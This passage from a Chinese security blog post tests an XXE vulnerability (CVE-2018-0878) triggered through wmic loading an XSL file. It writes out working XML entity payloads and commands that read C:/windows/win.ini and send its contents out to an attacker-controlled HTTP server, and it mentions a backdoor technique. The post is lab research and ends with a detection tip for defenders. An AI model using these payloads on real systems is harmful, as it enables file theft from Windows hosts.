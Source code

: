 poc地址如下：

https://www.exploit-db.com/exploits/44352/

同样可在wmic命令上触发

### 漏洞测试：


#### 1、使用kali linux建立httt服务器

```
python -m SimpleHTTPServer 8080
```

#### 2、kali linux目录下创建文件xxe.xml

内容如下：

```
<!ENTITY % payload SYSTEM "file:///C:/windows/win.ini">  
<!ENTITY % root "<!ENTITY &#37; oob SYSTEM 'http://192.168.62.140:8080/?%payload;'> ">  
```

**注：**

kali linux的IP为192.168.62.140

#### 3、创建payload.xsl

内容如下：

```
<?xml version="1.0" encoding="UTF-8" ?>  
<!DOCTYPE zsl [  
<!ENTITY % remote SYSTEM "http://192.168.62.140:8080/xxe.xml">  
%remote;%root;%oob;]>
```

#### 4、windows系统使用wmic加载该xsl文件

```
wmic os get /format:payload.xsl
```

执行失败，提示`Invalid XSL format (or) file name.`


然而，漏洞成功触发，服务器获得文件`C:/windows/win.ini`的内容，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-4-23/3-1.png)


## 0x06 小结
---

本文测试了使用wmic从本地或从URL调用XSL文件的方法，分享了一个后门利用的思路，并结合CVE-2018-0878对XXE漏洞进行了测试。
站在防御的角度，如果wmic.exe发起了网络连接，那么很有可能是加载了特殊xsl文件的原因，值得注意。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


